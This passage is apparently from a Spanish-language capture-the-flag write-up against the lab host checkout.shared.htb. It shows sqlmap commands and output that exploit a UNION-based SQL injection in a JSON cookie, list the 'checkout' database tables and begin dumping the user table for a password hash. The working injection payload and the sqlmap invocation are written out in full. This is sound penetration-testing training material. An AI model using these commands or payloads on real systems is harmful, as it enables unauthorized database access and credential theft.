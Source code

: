 ```bash
[13:31:48] [INFO] resuming back-end DBMS 'mysql'
[13:31:48] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qzbxq','mDgXayJoyKUymjwMorkqAOaGsoWQfELOhEkSsvUp'),'qvbkq'),NULL-- qbYb":"1"}
---
[13:31:49] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:31:49] [INFO] fetching tables for database: 'checkout'
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
Database: checkout
[2 tables]
+---------+
| user    |
| product |
+---------+

[13:31:49] [INFO] fetched data logged to text files under '/home/miguel/.local/share/sqlmap/output/checkout.shared.htb'

[*] ending @ 13:31:49 /2024-05-26/
```

- Ahora vemos el `hash`.

```bash
➜  nmap sqlmap -u "https://checkout.shared.htb/" --cookie='custom_cart={"*":"1"}' --technique U --union-cols 3 --batch -D checkout -T user --dump
        ___
       __H__
 ___ ___[,]_____ ___ ___  {1.8.3#stable}
|_ -| . [(]     | .'| . |
|___|_  [.]_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 13:32:24 /2024-05-26/

custom injection marker ('*') found in option '--headers/--user-agent/--referer/--cookie'. Do you want to process it? [Y/n/q] Y
[13:32:24] [INFO] resuming back-end DBMS 'mysql'
[13:32:24] [INFO] testing connection to the target URL
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: Cookie #1* ((custom) HEADER)
    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns (custom)
    Payload: custom_cart={"' UNION ALL SELECT NULL,CONCAT(CONCAT('qzbxq','mDgXayJoyKUymjwMorkqAOaGsoWQfELOhEkSsvUp'),'qvbkq'),NULL-- qbYb":"1"}
---
[13:32:25] [INFO] the back-end DBMS is MySQL
web application technology: Nginx 1.18.0
back-end DBMS: MySQL 5 (MariaDB fork)
[13:32:25] [INFO] fetching columns for table 'user' in database 'checkout'
do you want to URL encode cookie values (implementation specific)? [Y/n] Y
[13:32:25] [INFO] fetching entries for table 'user' in database 'checkout'
```